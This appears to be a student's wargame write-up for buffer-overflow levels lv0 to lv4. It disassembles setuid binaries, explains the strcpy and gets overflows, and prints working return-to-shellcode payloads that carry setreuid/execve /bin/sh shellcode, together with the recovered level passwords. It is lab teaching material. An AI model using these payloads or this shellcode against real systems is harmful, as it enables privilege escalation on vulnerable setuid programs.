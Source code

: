 ```yaml
---
title: 1-0 Wargame Writeup [lv0~lv3]
tags: assignment1 wargame bof lob lv0 lv1 lv2 lv3
---
```


## 0. lv0 > lv1
```bash
-rwsr-sr-x 1 lv1 lv1 11987 Feb 25  2010 lv1
```
binary "lv1" allows the user to use the permission of user:lv1 upon execution. Let's disassemble this binary

```nasm
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8], 0x1
   0x0804843d <+13>:	jg     0x8048456 <main+38>
```
first, the program checks if argc is 1 and exits the program if true.
If not, program continues

```nasm
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+41>:	add    eax,0x4
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]
   0x0804845e <+46>:	push   edx
   0x0804845f <+47>:	lea    eax,[ebp-0x100]
   0x08048465 <+53>:	push   eax
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>
   0x0804846b <+59>:	add    esp,0x8
   0x0804846e <+62>:	lea    eax,[ebp-0x100]
   0x08048474 <+68>:	push   eax
   0x08048475 <+69>:	push   0x80484ec
   0x0804847a <+74>:	call   0x8048350 <printf@plt>  
```
the program then copies data from eax to ebp-0x100 using strcpy and prints the copied data using printf

ebp+0xc contains address for array of pointers that point to argv's. adding 4 to ebp+0xc gives address for argv[1], which contains the value that's being copied to ebp-0x100.

Since the program does not limit buffer size, it's vulnerable to BOF attacks. I used "Return To Shellcode" method to solve this problem.

the payload should contain:
1. nop
2. shellcode 
3. dummy data
4. approximate address of shellcode

following is the payload (260 bytes):
```bash
`python -c 'print "\x90"*165 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "A"*54 +  "\x38\xd0\xff\xff"'`
```
we can get the shell that has the uid of lv1

```bash
$ my-pass
hello newbie!
```
<br>

## 1. lv1 > lv2
```bash
-rwsr-sr-x 1 lv2  lv2  11970 Feb 25  2010 lv2
```
binary "lv2" has the same special permission as the previous "lv1". Let's take a deeper look.
```nasm
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048456 <+38>:	add    eax,0x4
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]
   0x0804845b <+43>:	push   edx
   0x0804845c <+44>:	lea    eax,[ebp-0x10]
   0x0804845f <+47>:	push   eax
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>
```
lv2 is similar to previous lv1 but the copy destination is different. Its size is 0x10 which is too small to fit the shellcode (41 bytes).
So, lets use the shellcode stored in argv instead of the buffer.

Our payload should contain:
1. dummy data
2. return address
3. nop
4. shellcode

following is the payload i used:
```bash
`python -c 'print "\x90"*20+"\x30\xd4\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

we got the shell!
```bash
$ my-pass
tooo easy
```
<br>

## 2. lv2 > lv3
```bash
-rwsr-sr-x 1 lv3  lv3   11824 Feb 25  2010 lv3
```
Same permissions. Lets take a look.
```nasm
   0x080483fe <+6>:	lea    eax,[ebp-0x10]
   0x08048401 <+9>:	push   eax
   0x08048402 <+10>:	call   0x804830c <gets@plt>
```
this program uses gets to store input from stdin to buffer.

payload structure:
1. dummy data
2. return address
3. nop
4. shellcode

payload used:
```bash
(python -c'print "A"*20+"\x30\xd2\xff\xff"+"\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat)
```

we can get the shell by passing this to lv3 via pipe
```bash
my-pass
i dont like stdin
```

<br>

## 3. lv3 > lv4
```bash
-rwsr-sr-x 1 lv4  lv4  12567 Apr 26 13:17 lv4
```
Same permissions. Disassembly time:
```nasm
   0x08048506 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804850a <+10>:	jg     0x8048523 <main+35>
```
First it checks argc and exit if it's 1
```nasm
   0x08048524 <+36>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0804852b <+43>:	nop
   0x0804852c <+44>:	lea    esi,[esi+eiz*1+0x0]
   0x08048530 <+48>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x08048533 <+51>:	lea    edx,[eax*4+0x0]
   0x0804853a <+58>:	mov    eax,ds:0x8049750
   0x0804853f <+63>:	cmp    DWORD PTR [eax+edx*1],0x0
   0x08048543 <+67>:	jne    0x8048547 <main+71>
   0x08048545 <+69>:	jmp    0x8048587 <main+135>	;for loop exit
   0x08048547 <+71>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804854a <+74>:	lea    edx,[eax*4+0x0]
   0x08048551 <+81>:	mov    eax,ds:0x8049750
   0x08048556 <+86>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048559 <+89>:	push   edx
   0x0804855a <+90>:	call   0x80483f0 <strlen@plt>
   0x0804855f <+95>:	add    esp,0x4
   0x08048562 <+98>:	mov    eax,eax
   0x08048564 <+100>:	push   eax
   0x08048565 <+101>:	push   0x0
   0x08048567 <+103>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804856a <+106>:	lea    edx,[eax*4+0x0]
   0x08048571 <+113>:	mov    eax,ds:0x8049750
   0x08048576 <+118>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048579 <+121>:	push   edx
   0x0804857a <+122>:	call   0x8048430 <memset@plt>	;void * memset ( void * ptr, int value, size_t num );
   0x0804857f <+127>:	add    esp,0xc
   0x08048582 <+130>:	inc    DWORD PTR [ebp-0x2c]
   0x08048585 <+133>:	jmp    0x8048530 <main+48>
```
Then it goes through environment values and overwrites them with zero using memset. Our previous payloads does not make any use of env values, so this shouldn't be a problem.

```nasm
   0x08048587 <+135>:	mov    eax,DWORD PTR [ebp+0xc]	;address of argv array (eax = argv[0])
   0x0804858a <+138>:	add    eax,0x4			;second item of argv array (eax = argv[1])
   0x0804858d <+141>:	mov    edx,DWORD PTR [eax]	;pointer of argv[1] value (edx = *argv[1])
   0x0804858f <+143>:	add    edx,0x2f			;0x2f th char of argv[1] value (edx = &argv[1][0x2f])
   0x08048592 <+146>:	cmp    BYTE PTR [edx],0xff
   0x08048595 <+149>:	je     0x80485b0 <main+176>
```
After the for loop of erasing env's, it compares argv[1] value's 0x2f th byte with 0xff
```nasm
   0x080485b0 <+176>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485b3 <+179>:	add    eax,0x4
   0x080485b6 <+182>:	mov    edx,DWORD PTR [eax]
   0x080485b8 <+184>:	push   edx
   0x080485b9 <+185>:	lea    eax,[ebp-0x28]
   0x080485bc <+188>:	push   eax
   0x080485bd <+189>:	call   0x8048440 <strcpy@plt>
```
Then it copies argv[1] value to ebp-0x28. Since the buffer size is 0x28, return address should start at 0x2c th byte. Which means 0x2f is the last byte of return address. Considering the fact that i386 uses little-endian, the previous step was meant to check if return address was pointing to an address starting with 0xff.

payload structure should be similar to previous ones:
1. dummy data
2. return address
3. nop
4. shell code

by using:
```bash
`python -c 'print "\x90"*44+"\xa0\xd1\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
I got the shell:
```bash
$ my-pass
broken egg
```
 
